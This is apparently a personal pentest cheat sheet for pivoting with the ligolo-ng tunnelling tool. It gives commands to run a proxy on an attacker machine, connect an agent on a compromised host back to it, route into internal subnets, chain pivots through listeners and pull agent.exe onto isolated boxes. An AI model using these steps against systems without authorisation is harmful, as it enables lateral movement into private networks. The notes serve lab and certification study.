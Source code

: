 https://github.com/nicocha30/ligolo-ng

Starting
	use port 11601 if possible as it lets us ALSO add a loopback route
```bash
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Attacker machine
./proxy -laddr 0.0.0.0:11601 -selfcert

#Compromised machine
.\agent.exe -connect <LHOST>:11601 -ignore-cert

#In Ligolo-ng console
session  #select host
ifconfig #Notedown the internal network's subnet
start    #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo
	# optional -- loopback :) -- see Regarding Loopbacks
	sudo ip r add 240.0.0.<no.>/32 dev ligolo<no.>

```


Once all of this is done and ligolo is started, ip a will show the interface as UP
you can now perform commands from a terminal of your own to the internal subnet

Invoke-WebRequest (iwr) for file transfer works best in my experience

If we want to add more routes, add paths, add listeners but have one central agent
https://docs.ligolo.ng/sample/double/

File Transfer
```bash
# In case you cannot transfer an additional agent onto the next box, you can try the following on PROXY:

listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp

# Host a python3 http server on KALI

python3 -m http.server 80

# Then on the box that is sequestered, file transfer 

wget http://<agent1_internal_ip>:8080/agent.exe -o agent.exe

or

iwr -uri http://<agent1_internal_ip>:8080/agent.exe -Outfile agent.exe
```

https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9

Adding Listeners
```bash
# (do this from the ligolo interface)
#On PROXY

listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601

#On Agent 2

./ligolo-agent --connect <ip_agent1>:11601 -ignore-cert
session

# if you want loopback here, add a new route, then start
	# see "Adding more subnet routes/interfaces"
```

Adding more subnet routes/interfaces
```bash
# Create new interface per new subnet

sudo ip tuntap add user $(whoami) mode tun ligolo<no.>
sudo ip link set ligolo<no.> up
sudo ip r add <new_subnet>/<cidr> dev ligolo<no.>

# from ligolo proxy

session <no.>
ifconfig
start --tun ligolo<no.>       #(from proxy)
```

Regarding loopbacks
	we can have a loopback for every box we want!
	just requires more listeners
```bash
# add loopback per interface
sudo ip r add 240.0.0.<no.>/32 dev ligolo<no.>

____________________________________________________
example of what this looks like

ip r
	240.0.0.1 dev ligolo scope link 
	240.0.0.2 dev ligolo2 scope link 
```
basically here, i have a loopback .1 on interface "`ligolo`" and another loopback .2 on interface "`ligolo2`". There is no limit to this...
![[Pasted image 20250608163925.png]]

Delete routes -- for mess ups :)
```bash
sudo ip r del <ip_route>/<cidr> dev ligolo<no.>
```

Show all routes
```bash
ip r
```


___
possibly remove this...

Local Port Forwarding (alternative to chisel)
	I have incorporated this step to the Starting section up above
```
# Create interface (if not already done)
	sudo ip tuntap add user $(whoami) mode tun ligolo
	sudo ip link set ligolo up

# Create tunnel
	./proxy -laddr 0.0.0.0:11601 -selfcert
	./agent --connect <LHOST>:11601 -ignore-cert

# add loopback route
	sudo ip r add 240.0.0.1/32 dev ligolo

# On ligolo proxy terminal
	session #select session
	start

```



